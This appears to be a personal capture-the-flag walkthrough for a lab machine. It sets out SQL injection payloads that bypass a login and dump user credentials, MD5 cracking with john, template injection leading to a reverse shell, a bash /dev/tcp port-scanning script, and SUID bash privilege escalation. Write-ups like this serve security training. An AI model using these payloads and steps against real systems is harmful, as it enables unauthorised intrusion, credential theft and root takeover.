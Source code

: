1. Enumerate ports

2. Obtain information about the page hosted in that ip with the command whatweb

3. Try to enumerate more info with the nmap script http-enum

4. Once you've tried to enumerate everything in the web-app you can now try to do somethings in the page itself

5. The first thing you can try is to do an SQL injection in the login page by sending a normal email and intercept the request in order to change the normal email into an sql query like this: hello@hello.com' or 1=1 -- -

6. This sends you to the admin control page but it requests you a password in order to enter the flask managment panel

7. Once you've exploited the login this way you can try another way by adding " ' order by 4-- -" or other numbers until you hit the maxium number of colums

8. Now you can try to insert numbers by adding ' union select 1, 2, 3, 4 

9. You'll see that the number 4 reflects in the server response, so, you can now try to exploit it via a [[SSTI - Server Side Template Injection]] attack

10. As a poc send something like ' union select 1, 2, 3, {{7*7}}-- -

11. Because this didn't work out as expected now you can try a common sql injection enumeration like:
	`' union select 1, 2, 3, table_name from information_schema.tables-- -` - List all tables from all dbs
	`' union select 1, 2, 3, schema_name from information_schema.schemata-- -` - List all dbs
	`' union select 1, 2, 3, table_name from information_schema.tables where table_schema = "main"-- -` - List all tables from the main db
	`' union select 1, 2, 3, column_name from information_schema.columns where table_schema = "main" and table_name = "user"-- -` - List all the columns from the main db and the user table
	`' union select 1, 2, 3, {name or id or password or email} from user where {name or id or password or email} = {"admin" or 1}-- -` - List all the content of the user table 1 by 1
	`' union select 1, 2, 3, group_concat(id,":",name,":",password,":", email) from user where {search criteria}-- -` - List all the content of the user table one user per line

12. Once you've obtained the password hashed you can try to identify it with hash-identifier and try to crack it

13. The way to crack it is by running the following command: john --wordlist=__{WORDLIST}__ hash --format=Raw-MD5

14. Now that you've got the password you can finally enter the flask admin panel

15. Going into the page you will come across the used edit panel that has the interesting name parameter that is suceptible to a SSTI attack

16. Try to run the attack to gain remote code execution, and eventually a reverse shell, listed in [[SSTI - Server Side Template Injection]]

17. Now that you've a reverse-shell you can see if you're already in the victim's machine by using the command "hostname -I"

18. Now that we know we are in a container we can try to list interesting ips with `route -n` 

19. Becuase there is an ip that ends with 1 we have to hack it to enter in the original user machine

20. Use `mount` to see all the mounts in docker and figure out that the directory that contains the flag is, indeed, a mount from the user's machine to the home directory

21. In this machine particularly you can see with `mount | grep home` that the /dev/sda1 is being mounted in /home/augustus

22. One of the last steps is to write a script to enumerate all the open ports in the victim's original machine by creating an script that does the same job as nmap:

```
#!/bin/bash

function ctrl_c(){
        echo -e "\n\n[-] Exiting...\n"
        tput cnorm; exit 1
}

trap ctrl_c INT

tput civis
for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port open" &
done;wait
tput cnorm
```

22.1 - Basic explanation of the script above:

function ctrl_c : Is the function called if the program detects an INT signal such as "Ctrl + C", basically what this function does is echo out a message, make the mouse reappear and exit with a 1 in the exit code. 1 in the exit code is unsuccessful and 0 successful

trap ctrl_c INT : tell the app that when it recieves an INT signal execute the specified function

tput civis and tput cnorm : This command are basically to tell the app to disappear and appear the mouse respectively

for port in $(seq 1 65535); do : This part of the script tells the app to make the port variable have the the value 1, 2, 3, etc..

timeout 1 : Tells the app to kill the process if its duration is more than 1 second

bash -c "__{COMMAND}__" : Makes the bash shell execute the following command

echo ' ' > /dev/tcp/{IP}/$port : Sends an empty string to the machine in the ip specified and in the port that the port variable has that cycle

2>/dev/null : Tells the app to redirect all the error messages to /dev/null

&& echo "[+] Port $port open" & : Makes the script only run the message if the exit code of the echo is 0. The final & makes the app use multiple threads to run the proccess of discovering ports

done; wait : done is to tell the app to finish the for iteration and wait is to make the app wait till the end of all the active threads

23. Now that we've created the shell file we can run the following command to make the shell convert the file into base64 and copy it into the clipboard to later on paste it in the victim's machine. The console command is explained in [[Pass files easily from one shell to other]].

24. We've seen that the port 22 is open, so, because we've some credentials we can try to enter in the ssh service of the main machine with the user leaked in the mount "augustus" with the following command: `ssh augustus@172.19.0.1` and try the password "superadministrator" later on

25. We've gained access so we now can list all the machine to see if we're finally on the machine with the following commands `hostname -I` and `ip a`. See [[Own machine enum]]

26. After trying a lot of things the way to escalate privileges is to copy the bash to /home/augustus and, from the mount, give that file SUID permissions and make it root property with `chown root:root bash` and `chmod 4755 bash`, enter augustus profile again and run `./bash -p`